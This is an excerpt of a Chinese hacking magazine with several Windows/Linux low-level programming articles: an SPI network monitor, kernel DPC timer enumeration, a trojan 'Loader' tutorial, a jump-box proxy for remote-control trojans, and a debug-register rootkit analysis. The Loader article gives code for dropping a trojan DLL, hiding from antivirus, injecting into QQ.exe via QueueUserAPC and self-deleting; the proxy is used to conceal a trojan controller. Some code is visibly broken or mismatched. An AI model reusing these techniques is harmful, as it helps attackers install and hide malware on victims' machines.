BOOL CTestSpiDlg::OnCopyData(CWnd* pWnd, COPYDATASTRUCT* pCopyDataStruct)
{
    Mysocket* info;
    CString tmp;
    int i;

    info = (Mysocket*)(pCopyDataStruct->lpData);
    DWORD pid = info->dwPid;
    tmp = GetName(pid);

    i = pCopyDataStruct->dwData;  // 取出行为类型
    switch (i)
    {
    case 0: // LISTEN
        m_list.InsertItem(0, tmp);
        m_list.SetItemText(0, 1, "LISTEN");
        tmp.Format("%s", inet_ntoa(info->ipfrom));
        m_list.SetItemText(0, 2, tmp);
        tmp.Format("%d", info->port);
        m_list.SetItemText(0, 4, tmp);
        break;

    case 1: // CONNECT
        m_list.InsertItem(0, tmp);
        m_list.SetItemText(0, 1, "CONNECT");
        tmp.Format("%s", inet_ntoa(info->ipto));
        m_list.SetItemText(0, 3, tmp);
        tmp.Format("%d", info->port);
        m_list.SetItemText(0, 4, tmp);
        break;

    case 2: // ACCEPT
        m_list.InsertItem(0, tmp);
        m_list.SetItemText(0, 1, "ACCEPT");
        tmp.Format("%s", inet_ntoa(info->ipto));
        m_list.SetItemText(0, 3, tmp);
        tmp.Format("%d", info->port);
        m_list.SetItemText(0, 4, tmp);
        break;

    case 3: // SEND
        m_list.InsertItem(0, tmp);
        m_list.SetItemText(0, 1, "SEND");
        tmp.Format("%s", inet_ntoa(info->ipto));
        m_list.SetItemText(0, 3, tmp);
        tmp.Format("%d", info->port);
        m_list.SetItemText(0, 4, tmp);
        break;

    case 4: // SENDTO
    {
        m_list.InsertItem(0, tmp);
        m_list.SetItemText(0, 1, "SENDTO");
        tmp.Format("%s", inet_ntoa(info->ipto));
        m_list.SetItemText(0, 3, tmp);
        tmp.Format("%d", info->port);
        m_list.SetItemText(0, 4, tmp);
        break;
    }

    case 5: // RECV
    {
        m_list.InsertItem(0, tmp);
        m_list.SetItemText(0, 1, "RECV");
        tmp.Format("%s", inet_ntoa(info->ipfrom));
        m_list.SetItemText(0, 2, tmp);
        tmp.Format("%d", info->port);
        m_list.SetItemText(0, 4, tmp);
        break;
    }

    case 6: // RECVFROM
    {
        m_list.InsertItem(0, tmp);
        m_list.SetItemText(0, 1, "RECVFROM");
        tmp.Format("%s", inet_ntoa(info->ipfrom));
        m_list.SetItemText(0, 2, tmp);
        tmp.Format("%d", info->port);
        m_list.SetItemText(0, 4, tmp);
        break;
    }
    }

    return CDialog::OnCopyData(pWnd, pCopyDataStruct);
}







```

主程序还需要安装 LSP，由于这个问题比较复杂，网上的解释也比较多，这里就不赘述了，但值得注意的是，我们的 LSP 必须保证是基础服务提供者，安装在系统基础服务提供者之上，也就是所有的 SPI 中的底层，这样能保证在应用层不被穿透。我们的监控程序界面如图 3 所示。开启监控后，以 IE 浏览器为例子，监视到 IE 浏览器的网络行为如图 4 所示。
图 3
图 4

##### 结束语

通过本文的介绍，相信大家对 SPI 了解更深了吧。个人觉得这种技术还是属于应用层的 HOOK 技术，实现上类似 detours 和 SSDT HOOK 结合。可能很多人认为这种方式实现网络行为监控或者封包过滤，抗穿透力不够，但不可否认的是，这种方式利用了微软提供的合法接口，而且位于用户态，所以稳定性最有保证，用于应用层监控模块还是非常合适的。后续的工作中，我们可以加入驱动过滤模块（TDI 或者 NDIS），打造一个自己的个人网络防火墙。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC
- 关键词：编程、DPC、枚举

##### 浅谈枚举 DPC 定时器的思路
文 / cxs_cqupt

用过 Ark 及 XueTr 的都知道其功能的强大。我们想知道的关键是，它们是如何将系统内部的所有 DPC 定时器全都枚举出来的。好奇之余，我查阅了 WRK 及 Windbg 反汇编部分函数，小有所得，这里与大家分享一下。

我们用 Windbg 查看 KTIMER 结构，发现了一个熟悉又可爱的 LIST_ENTRY。

```text
lkd> dt _KTIMER
nt!_KTIMER
+0x000 Header          : _DISPATCHER_HEADER
+0x010 DueTime         : _ULARGE_INTEGER
+0x018 TimerListEntry  : _LIST_ENTRY
+0x020 Dpc             : Ptr32 _KDPC
+0x024 Period          : Int4B
```

我们直接用 TimerListEntry 是不是就可以遍历所有 DPC 定时器了呢？嘿嘿，没那么简单。Windows 在插入的时候做了特殊的操作，接下来我们就看看这个操作到底有多特殊。Windbg 里用 uf 命令查看 KeSetTimerEx 函数，部分关键代码如下：

```text
nt!KeSetTimerEx+0xa0:
804fb10a 53              push ebx
804fb10b 57              push edi
804fb10c 8bce            mov  ecx, esi
804fb10e e8bd820000      call nt!KiInsertTreeTimer (805033ce)
```

出现了 KiInsertTreeTimer，看名字应该跟插入相关了。继续跟下去，又出现了一个 “call nt!KiInsertTimerTable”。KiInsertTimerTable 在 WRK 内找不到相关源码，只有自己干体力活了，而且还发现频繁出现 KiTimerTableListHead 这个变量。

```c
typedef struct _KTIMER_TABLE_ENTRY {
    LIST_ENTRY Entry;
} KTIMER_TABLE_ENTRY, *PKTIMER_TABLE_ENTRY;

KTIMER_TABLE_ENTRY
KiTimerTableListHead[TIMER_TABLE_SIZE(MAX_SIZE=512)];
```

但有的版本定义为如下：

```c
typedef struct _KTIMER_TABLE_ENTRY {
    LIST_ENTRY Entry;
    ULARGE_INTEGER Time;
} KTIMER_TABLE_ENTRY, *PKTIMER_TABLE_ENTRY;
```

经过验证，在 Windows XP SP3 下应该是前者，我想可能是出于节约内存空间的目的吧。我们继续往下看 KiInsertTimerTable：

```text
edi, nt!KiTimerTableListHead (8055d780)[eax*8]
// eax 是数组下标
mov ecx, dword ptr [edi+4]   // 取 KiTimerTableListHead 的 Blink
cmp ecx, edi                 // 判断是否为空
je  nt!KiInsertTimerTable+0x42 (8050336a) // 不为空执行下面的操作

nt!KiInsertTimerTable+0x29:
mov eax, dword ptr [esi+10h] // esi 指向 KTIMER 结构，esi+10h 取 DueTime 低 32 位
mov edx, dword ptr [esi+14h] // 取 DueTime 高 32 位
nt!KiInsertTimerTable+0x2f:
cmp edx, dword ptr [ecx+4]   // 简单比较高 32 位
ja nt!KiInsertTimerTable+0x42
// 大于则跳到 KiInsertTimerTable+0x42
nt!KiInsertTimerTable+0x34:
jb nt!KiInsertTimerTable+0x3b
...（后续从 LIST_ENTRY 开始遍历并插入）
```

```text
// 小于则跳到 KiInsertTimerTable+0x3b
nt!KiInsertTimerTable+0x36:  // 比较低 32 位
cmp eax, dword ptr [ecx+8]
jae nt!KiInsertTimerTable+0x42 (8050336a)
nt!KiInsertTimerTable+0x3b:
// 从 LIST_ENTRY 开始遍历
mov ecx, dword ptr [ecx+4]
cmp ecx, edi
jne nt!KiInsertTimerTable+0x2f (80503357)
nt!KiInsertTimerTable+0x42:  // 这里就是插入操作
cmp ecx, edi
mov edx, dword ptr [ecx]
lea eax, [esi+18h]
mov dword ptr [eax], edx
mov dword ptr [eax+4], ecx
mov dword ptr [edx+4], eax
mov dword ptr [ecx], eax
```

可见，KiInsertTimerTable 会根据 DueTime 大小选择插入位置，但是我们该如何得到 KiTimerTableListHead 数组的首地址？通过暴力搜索定位？但是经过了几层嵌套太麻烦。如果我们获取其中一个元素的地址，分别向上、向下搜索不就可以得到所有的元素，然后从每个元素出发不就可以得到所有的 KTIMER，再根据 KTIMER 的 DPC 指针进行筛选，于是乎就得到了所有的 DPC 定时器。

我们可以通过设置最小的 DueTime，让我们生成的 KTIMER 直接与 KiTimerTableListHead 相连。通过 KTIMER 的 LIST_ENTRY 就得到了 KiTimerTableListHead 数组的某个元素地址。获得地址的代码如下：

```cpp
LIST_ENTRY *GetKiTimerListItem()
{
    KTIMER Timer;
    LARGE_INTEGER DueTime;
    KIRQL OldIrql;
    LIST_ENTRY *ListItem;
    KeInitializeTimer(&Timer);
    DueTime.QuadPart = -1; // 通过设置最短相对时间反复调用 KeSetTimer 直到插入成功
    KeRaiseIrql(DISPATCH_LEVEL, &OldIrql);
    while (!KeSetTimer(&Timer, DueTime, NULL)) {
        DueTime.QuadPart--;
    }
    ListItem = Timer.TimerListEntry.Blink;
    // 取得元素地址，该地址存放一个 LIST_ENTRY 结构
    KeCancelTimer(&Timer);
    KeLowerIrql(OldIrql);
    return ListItem;
}
```

遍历的时候要注意一个问题，LIST_ENTRY 是双向链表，如图 1 所示，如果不注意设置遍历结束条件，容易导致死循环。而设置条件的小方法就是随意选取一个结点作为标志结点（我们这里选取头结点），当遍历的过程中再一次遍历到标志结点时，就表明我们已经成功地完成了一次遍历。

图 1　LIST_ENTRY 结构

我们还需要注意其他的问题，首先要注意的地方就是我们获得的元素并不一定都是 `KiTimerTableListHead[TIMER_TABLE_SIZE]` 中的元素，所以我们要对判断的条件严格控制，以防出现错误打印，尤其要对地址用 `MmIsAddressValid()` 函数严格检测。下面是枚举的实现代码：

```c
void EnumKTimer()
{
    ULONG Index=0; // 下标索引
    ULONG count=0; // 定时器计数
    PKTIMER ptimer;
    LIST_ENTRY *ListHead;
    LIST_ENTRY *NextEntry;
    LIST_ENTRY *TimerItemDown=GetKiTimerListItem();
    LIST_ENTRY *TimerItemUp=TimerItemDown;

    KdPrint(("TimerItemDown:%x\n",TimerItemUp));

    if(TimerItemDown)
    {
        do{
            ListHead=&TimerItemDown[Index];
            NextEntry=ListHead->Flink;
            while((NextEntry!=ListHead)&&((MmIsAddressValid(NextEntry))))
            {
                ptimer=CONTAINING_RECORD(NextEntry,KTIMER,TimerListEntry);
                NextEntry=NextEntry->Flink;
                if((!MmIsAddressValid(ptimer)||ptimer->Header.Inserted!=1
                    ||ptimer->Header.Size!=10||ptimer->Header.Absolute!=0))
                    break;

                if(ptimer->Dpc!=NULL&&ptimer->Dpc->DeferredRoutine!=NULL)
                {
                    count++;
                    KdPrint(("0x%X\n",ptimer));
                }
            }
            Index++;
        }while(Index<MAX_INDEX);

        KdPrint(("EndAddress:0x%X\n",&TimerItemDown[Index]));
        Index=MAX_INDEX-1;
        KdPrint(("TimerItemDown:0x%X\n",TimerItemDown));
        TimerItemDown=TimerItemDown-512;
        KdPrint(("TimerItemDown:0x%X\n",TimerItemDown));

        // ...（后续同页右栏续接）
    }
}
```

```c
// 开始向上搜索
ListHead=&TimerItemDown[Index];
NextEntry=ListHead->Flink;
while((NextEntry!=ListHead)&&((MmIsAddressValid(NextEntry))))
{
    ptimer=CONTAINING_RECORD(NextEntry,KTIMER,TimerListEntry);
    NextEntry=NextEntry->Flink;
    if((!MmIsAddressValid(ptimer)||ptimer->Header.Inserted!=1
        ||ptimer->Header.Size!=10))
        break;
    if(ptimer->Dpc!=NULL&&ptimer->Dpc->DeferredRoutine!=NULL)
    {
        count++;
        KdPrint(("0x%X\n",ptimer));
    }
}
Index--;
}while(Index>0);
KdPrint(("count:%d\n",count));
```

将以上代码编译运行，与 XueTrD 对比（排序上有出入），结果如图 2 所示。

图 2　对比图

本文的代码只是一种简单的枚举思路，只是尝试用另一种途径来枚举，还有很多没有完善的地方。本驱动代码在 WDK + Windows XP SP3 下编译通过，在其下加载并成功实现功能。

前置知识：VC  
关键词：编程、木马、DLL

##### 新思路打造 Loader 程序

###### 编写木马加载程序

文/JKS_ForXuan

现代的木马程序一般都分成两个部分，一个是木马的主体部分，一个是安装部分。通常情况是用一个 EXE 文件释放一个 DLL 文件，然后再运行释放的 DLL 文件，最后 EXE 文件自我删除。我们一般将释放 DLL 文件的 EXE 文件称之为 Loader，本文就简单地讲述一下如何编写一个简洁高效的 Loader 程序。

作为一个 Loader 程序，其运行是不能出现有关用户界面交互的过程的。对于一个 WIN32 的应用程序来说，我们不能直接释放文件，这样的话大多数安全软件都会报警，但我们可以创建一个看不到的“窗口”，用来蒙蔽安全软件。程序入口点的实现代码如下：

```cpp
WNDCLASSEX m_wnd;
MSG msg;
static const TCHAR ClassName[] = "m_Window";
ZeroMemory(&m_wnd, sizeof(WNDCLASSEX));
wc.cbSize = sizeof(WNDCLASSEX);
wc.hInstance = g_hInstance;
wc.lpfnWndProc = WindowProc;
wc.lpszClassName = &ClassName[0];
RegisterClassEx(&m_wnd);
msg.hwnd = CreateWindowEx(WS_EX_TOOL_WINDOW,
  &ClassName[0], "Commerial Soft Pinter", 0, /*...*/);
ShowWindow(msg.hwnd, SW_HIDE);
UpdateWindow(msg.hwnd);
```

这样就创建了一个隐藏的窗口，但不要忘了要对窗口过程函数做消息响应处理，接下来就可以写释放木马主模块的函数了。首先我们将木马的主体文件以资源的形式包含在工程中，这里我要说一下，比如要释放一个 DLL 文件，文件的资源 ID 是“`#define ID_MYDLL_DLL 100`”，后面一定要输入回车，保证换行，否则编译会报错。

```cpp
void ResourceToFile(char *filename, char *Name, char* Type)
{
    // 释放文件
    HRSRC hRes = FindResource(NULL, Name, Type);
    HGLOBAL hgRes = LoadResource(NULL, hRes);
    void *pRes = LockResource(hgRes);
    DWORD size = SizeofResource(NULL, hRes);
    HANDLE hFile = CreateFile(filename, GENERIC_WRITE, 0, 0,
        CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);
    DWORD dwWrite;
    CloseHandle(hFile);
    GlobalFree(hgRes);
}
```

```cpp
DWORD dwWrite;
CloseHandle(hFile);
GlobalFree(hgRes);
```

整个函数非常简单，我只解释调用参数。`filename` 是我们要释放的路径名称，`Name` 是资源 ID 号，`Type` 是资源类型。释放文件后，接下来要做的就是加载木马主模块了。这是一个很重要的分水岭，Loader 能不能免杀，以何种方式启动木马非常重要。假设我们的木马是替换服务启动的，很多人喜欢把替换服务的代码写到 Loader 中，这样一旦服务被建立，木马主模块在开机的时候总会得到运行，一劳永逸。不过只要牵扯到替换服务，难免不触及修改注册表，这样很多安全软件都会弹出提示，一旦 Loader 被拦截，那么一切就全白费了。我这里将替换服务的代码写到 DLL 中，在 Loader 中动态调用。这和直接在 Loader 中执行替换服务无任何区别。

在 Ring3 下如果要实现远程注入，通常使用 `CreateRemoteThread` 或者 `QueueUserApc`。这里我选择 `QueueUserApc` 来实现远程注入，因为它几乎不被拦截。Windows 有 3 个最重要的 DLL，一个是 `kernel32.dll`，负责管理内存、进程和线程的函数；一个是 `user32.dll`，包含处理用户界面任务一些函数；`gdi32.dll` 负责处理图形和显示文本的函数。毫无疑问，绝大多数的进程所对应的 PE 文件都包含这几个字符串。那么，只要我们暴力搜索内存，毫无疑问能找到这几个字符串的地址。假设我将木马的 DLL 文件命名为 `ser32.dll`，并且释放到 `system32` 文件夹下面，然后搜索某个进程获得 `user32.dll` 的内存地址为 `0x005C62D2`，那么 `0x005C62D3` 是不是 `ser32.dll` 的内存地址呢？这样，我们就可以利用 `QueueUserApc` 实现远程注入而不被拦截了（这里以 `QQ.EXE` 做的测试）。主要实现代码如下：

```cpp
......
DWORD ProcessAddress;
char szProcessName[255] = "QQ.exe";
char szCampName[255] = "ser32.dll";
ProcessAddress = GetStrAddress(szCampName, szProcessName);
/* 自定义函数，用来获取 ser32.dll 在 QQ.exe 的地址 */
```

```c
// ...获取 QQ.exe 句柄、遍历模块并定位 ser32.dll...
HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, pCurrentTid->dwTid);
QueueUserAPC((PAPCFUNC)LoadLibraryA, hThread, (ULONG_PTR)(defaultAddress+""));
```

```c
// 暂停命令直到程序退出
SetPriorityClass(pi.hProcess, IDLE_PRIORITY_CLASS);
SetThreadPriority(pi.hThread, THREAD_PRIORITY_IDLE);
ResumeThread(pi.hThread);
// ...错误处理恢复优先级...
```

这样，我们就能做到绕过安全软件的提示来实现进程注入，当 Loader 走到这一步的时候，主要代码已经完成大半了。最后，我们考虑如何收尾即可，也就是实现自删除。通常 Loader 的自删除是通过批处理完成的……

这段代码的主要原理是先暂停命令，通过 `CreateProcess` 建立 CMD 命令行，通过 `del` 命令实现自删除，但此种方法也逐渐被杀毒软件有所警觉……

```c
char szModule[MAX_PATH];
char szComspec[MAX_PATH];
char szParams[MAX_PATH];
// 得到文件路径
GetModuleFileName(...);
GetEnvironmentVariable("COMSPEC", ...);
wsprintf(szParams, "/c del %s > nul", szModule);
CreateProcess(0, szComspec, ... CREATE_SUSPENDED | DETACHED_PROCESS ...);
```

```c
char szLoaderName[255] = "...";
char szLoaderPath[255] = "...";
DWORD loaderID;
loaderID = GetProcessIDByName(szLoaderName);
HANDLE hLoader = OpenProcess(PROCESS_ALL_ACCESS, FALSE, loaderID);
if(hLoader == NULL) DeleteFile(szLoaderPath);
else TerminateProcess(hLoader, 0);
DeleteFile(szLoaderPath);
```

这样，一个比较好的 Loader 就完成了，编译后放到安全软件下测试，会发现大部分安全软件已经不拦截 Loader 的行为了。

前置知识：VC  
关键词：编程、Socket、代理程序

##### 玩转 Socks 代理程序

文/图 masepu

我们在使用各类网络程序时常常会接触到代理程序，如果做网络攻击或木马控制，常称这类程序为跳板程序。我觉得跳板和代理的概念很相似，都是为运行在不同主机上的网络程序提供数据中转服务，可以说代理和跳板程序就是网络信息的中转站，只是这类中转程序在不同的应用领域中使用不同的称谓。它的作用主要是突破自身 IP 访问限制和隐藏真实的 IP 地址。比如在远程控制软件的使用过程中，经常会遇到被控端主机无法回连或是连接速度太慢的问题，或者为了隐藏被控端 IP 地址，需要以一个中转主机作为连接跳板来防止控制端主机暴露。这些功能都可以通过简单的跳板代理予以实现。程序的结构示意如图 1 所示。

在没有使用代理的情况下，客户端直接连接到服务端的指定端口，并与其建立起连接。在使用代理的情况下，客户端首先连接到代理跳板主机的指定端口，同代理服务器建立起连接，同时代理服务器会主动连接服务端的指定端口，并与之建立起连接。这样，客户端发往代理服务器的数据都会被原封不动地转发到服务端，而服务端返回的数据也会被代理服务器原封不动地转发到客户端。这样，对于客户端和服务端来说，就像直接连接通信一样，代理服务器作为它们之间的中间人，只需简单地把从一个 Socket 获得的数据发送到另一个 Socket 中，这样就实现了一个端口转发的简单代理程序。

图 1　结构示意图

我们在 VC++ 6.0 下编写这个简单的代理程序。首先是要和服务端程序一样，监听服务端口，等待客户端程序连接。当有客户端连接进入时，代理程序接受该连接并返回新的 Socket，此 Socket 就是代理服务器与客户端的通信接口，我们称为 Socket A，同时再创建一个与服务器监听端口的连接，并返回连接 Socket，为了表达方便，我们这里称之为 Socket B。之后监听端口继续监听，等待其他客户端程序的连接。而已经连接的 Socket A 和 Socket B 会被传递给一个新开的线程，此线程专门负责程序与该客户端的通信。该线程不断地监视着 Socket A 和 Socket B，一旦某个 Socket 接收到数据就会向另外一个 Socket 发送出去，代理程序就这样不断地转发数据，实现简单的代理功能。代理程序在为多台客户端连接提供代理的情况下，其连接示意图如图 2 所示。

图 2　多客户端连接示意图

以下代码是代理程序监听，当有新连接就接受并创建与服务端连接和开启新线程处理的代码。

```cpp
SocketListen=socket(AF_INET,SOCK_STREAM,0);
if(SocketListen<=0)
{
    return;
}
struct sockaddr_in srvaddr;
srvaddr.sin_port=htons(ClientPort);
srvaddr.sin_family=AF_INET;
srvaddr.sin_addr.s_addr=htonl(INADDR_ANY);
setsockopt(SocketListen,SOL_SOCKET,SO_REUSEADDR,(char*)&on,sizeof(on));
bind(SocketListen,(struct sockaddr*)&srvaddr,sizeof(struct sockaddr));
if(listen(SocketListen,8)<0)
{
    return;
}
while(1)
{
    SocketClient=accept(SocketListen,(struct sockaddr*)&remote,&size);
    SocketServer=socket(AF_INET,SOCK_STREAM,0);
    ConnectHost(SocketServer,ServerHost,ServerPort);
    sock.fd1=SocketClient;
    sock.fd2=SocketServer;
    hThread=CreateThread(NULL,0,(LPTHREAD_START_ROUTINE)ClientThread,(LPVOID)&sock,0,&dwThreadID);
    Sleep(1000);
}
```

新线程负责监测 Socket，当 Socket 有数据收到时，会通过另一个 Socket 发送出去，以下是新线程的处理函数代码（其中省略部分代码）：

```cpp
while(1)
{
    result=select(maxfd,&readfd,&writefd,NULL,&timeset);
    if(FD_ISSET(fd1,&readfd))
    {
        if(totalread1<MAXSIZE)
        {
            read1=recv(fd1,read_in1,MAXSIZE-totalread1,0);
            memcpy(send_out1+totalread1,read_in1,read1);
            totalread1+=read1;
            memset(read_in1,0,MAXSIZE);
        }
    }
    if(FD_ISSET(fd2,&writefd))
    {
        while(totalread1>0)
        {
            // ...
        }
    }
}
```

```c
send1=send(fd2,send_out1+sendcount1,totalread1,0);
sendcount1+=send1;
totalread1-=send1;
}
}
if(FD_ISSET(fd2,&readfd))
{
    if(totalread2<MAXSIZE)
    {
        read2=recv(fd2,read_in2,MAXSIZE-totalread2,0);
    }
    if(FD_ISSET(fd1,&writefd))
    {
        while(totalread2>0)
        {
            send2=send(fd1,send_out2+sendcount2,totalread2,0);
            if(send2==0)break;
            if((send2<0)&&(errno!=EINTR))
            {
                break;
            }
            if((send2<0)&&(errno==ENOSPC))break;
            sendcount2+=send2;
            totalread2-=send2;
        }
        if(err2==1) break;
        if((totalread2>0)&&(sendcount2>0))
        {
            memcpy(send_out2,send_out2+sendcount2,totalread2);
            memset(send_out2+totalread2,0,MAXSIZE-totalread2);
        }
        else
            memset(send_out2,0,MAXSIZE);
    }
    Sleep(5);
}


```

程序编写完成后就可以使用了。这里我下载了“上兴远程控制软件”来测试效果。配置一个上兴被控端，地址和端口都指定为代理软件所在的主机地址和监听端口，然后在跳板主机上运行我们写好的代理程序，指定监听端口、要连接的上兴控制端地址和端口。打开上兴控制端程序，运行上兴被控端，我们即可看到主机上线了，即使有多台主机效果也一样好，使用远控的各类功能一切正常，如图3所示。
图3 正常上线

这个简单的代理程序编写完成了。利用端口转发实现了跳板代理的功能。程序可以继续加上登录认证等功能。我开始没有采用非阻塞 Socket 编写，而是使用阻塞 Socket 和多线程结合来实现端口数据转发，虽然效果是一样的，但是在看了其他人写的类似程序后，还是觉得利用 Select 函数来实现非阻塞 Socket 方式更加高效和简便。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC
- 关键词：编程、Hook、Rootkit、寄存器

## Linux 下利用调用

##### 寄存器 Hook 系统调用
文/图 小小杉

Rootkit 技术的演化，从应用级到内核级再发展为硬件级，每次演化都是一种技术的提升。应用级 Rootkit 主要通过替换 login、ls、ps、netstat 等 shell 命令或者修改一些系统配置文件实现隐藏；

内核级 Rootkit 则主要是通过修改内核中的系统调用或者系统调用函数中嵌套的更为底层的函数以实现有效拦截，从而改变程序执行流（包括内核函数补丁技术、DKOM 技术、拦截缺页异常处理函数等）。Linux 下的内核级 Rootkit 又可分为 LKM Rootkit 和非 LKM Rootkit，当前大部分 Rootkit 的实现都借助了 LKM 技术，LKM 可以很方便地让黑客编写的恶意模块加载进内核，成为内核中的一个有效模块。例如内核下的后门技术，在内核态下编写一个服务器监控模块，将其加载到内核中，则在远程编写一个简单的客户端程序即可实现远程监控。然而，这些技术正遭受严峻的考验，大量针对 LKM 技术的 Rootkit 检测工具被开发出来，比如对系统调用函数地址的监控、每个系统调用函数实现代码中的前 31 个字节的校验等。

对系统函数进行补丁时，一般会直接选择对系统调用函数入口处进行补丁，很少会针对某一个特定的系统函数进行补丁。Linux 内核 /arch/i386/kernel/entry.S 文件中存放的系统调用的入口代码如下：

```c
ENTRY(system_call)
RING0_INT_FRAME              # can't unwind into user space anyway
    pushl %eax               # save orig_eax
    CFI_ADJUST_CFA_OFFSET 4
    SAVE_ALL
    GET_THREAD_INFO(%ebp)

    cmpl $(nr_syscalls), %eax   /* 若换下面两条指令，便可插入 jmp 到 hook func */
    jae syscall_badsys
syscall_call:
    call *sys_call_table(,%eax,4)
    movl %eax,EAX(%esp)      # store the return value
```

语句“cmpl $(nr_syscalls),%eax”占 5 个字节，“jae syscall_badsys”占 6 字节，共 11 字节大小，修改时只需简单插入“push $addr”和“ret”语句即可实现程序执行流的改变。这类修改内核函数机器码，通过写入 jmp 或 ret 等指令跳转到 Hook 函数中的技术，在遇到具备对系统调用函数前后多个字节检验的反 Rootkit 工具时，将原形毕露。笔者最近看到 Miami Beach 写的 DR Rootkit，详细品读了一番，其采用的技术比较新颖，完全回避了 jmp、ret 等跳转代码，采用更改下层函数在上层函数的 Offset 实现跳转，并且还借助了调试寄存器来监控系统调用表的执行过程。本文将全面分析利用调试寄存器拦截系统调用的方法。

##### 调试知识

为了简化开发工作，Intel 提供了一系列特定寄存器来管理调试过程，即调试寄存器 DR0～DR7。DR0 用来容纳 4 个 32 位的断点地址，DR5 和 DR4 是 Intel 保留的，未作定义。DR6 是断点状态寄存器，其中包含了所有引起异常中断的事件标志，用来协助断点调试。DR7 为断点控制寄存器，它的高 16 位分成 4 个字段，分别用来规定 4 个断点的长度是 1 个字节还是 4 个字节以及引起断点的访问类型，低 16 位用来允许/禁止 4 个断点以及选择断点的条件。

当 CPU 运行的代码执行/读取/写入 DR3～DR0 中设定的断点地址时，就会产生 int $0x01 中断“陷入”（trap 1），运行内核的 do_debug() 处理函数（handler）。DR Rootkit 把要截获的系统调用的函数地址设置到调试寄存器中，这样当有程序触发这些系统调用时就会率先被此 Rootkit 的 do_debug 函数实现截获，然后即可实现同其他 Rootkit 类似的“隐藏”工作。

调试状态寄存器 DR6：该寄存器用于表示进入陷阱 1 的原因。各个位的含义为：B0～B3，如果其中任何一位置位，则表示是相应的 DR0～DR3 断点引发的调试陷阱；但有时候不管 G/L 如何设置，只要是遇到 DRx 指定的断点，总会设置 Bi，如果看到多个 Bi 置位，则可以通过 G/Li 的情况判断究竟是哪个 DR 寄存器引发的调试陷阱。BD 置位表示是 GD 位置位的情况下访问调试寄存器引发的陷阱。BT 置位表示是因为 TS 置位，即任务切换时 TSS 中 TS 位置 1，切换到第二个任务时第一条指令引发的。BS 置位表示是单步中断引发的断点，即 EFLAGS 的 TF 置位时引发的调试陷阱。

##### 利用 offset 实现跳转的 inline hook 技术

经常阅读内核代码的读者，可能更清楚函数的调用过程。几乎所有的系统调用函数都不是一步到位实现某个功能，相反总会嵌套一个或多个底层函数继续完成剩余的功能。故反汇编出来的代码中必然就会出现 call 语句，以跳转到下一个函数继续执行。因此，只要我们改变跳转偏移值，则可改变程序的执行流。例如 Socket 通信中的 sys_recvfrom 函数（接受来自发送方的数据），部分源代码如下：

```c
asmlinkage long sys_recvfrom(int fd, void __user * ubuf,
    size_t size, unsigned flags, struct sockaddr __user *addr, int __user *addr_len){
    struct socket *sock;
    struct iovec iov;
    struct msghdr msg;
    char address[MAX_SOCK_ADDR];
    struct file *sock_file;
    sock_file=get_light(fd, &fput_needed);
    sock=sock_from_file(sock_file, &err);
    ......
    err=sock_recvmsg(sock, &msg, size, flags);
    // 接收发送方发来的数据包
    if(err >= 0 && addr != NULL){
        err2=move_addr_to_user(address, msg.msg_namelen, addr, addr_len);
        if(err2<0)
            err=err2;
    }
}


```

实际上，sock_recvmsg 函数才是真正接收发送方从网络上发过来的数据包函数。sys_recvfrom 函数代码在调用 sock_recvmsg 之前，只是对数据包的接收缓冲区进行了一定的封装，以灵活调整缓冲区大小。

